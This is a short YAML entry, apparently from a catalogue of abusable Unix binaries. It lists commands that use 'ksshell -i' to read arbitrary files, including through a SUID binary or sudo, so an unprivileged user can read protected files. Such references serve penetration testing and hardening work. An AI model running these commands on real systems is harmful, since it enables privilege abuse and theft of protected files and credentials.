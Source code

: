 ```yaml
---
description: |
  Each line is corrupted by a prefix string. Also consider that lines are actually parsed as `kickstart` scripts thus some file contents may lead to unexpected results.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        ksshell -i $LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./ksshell -i $LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo ksshell -i $LFILE
---
```

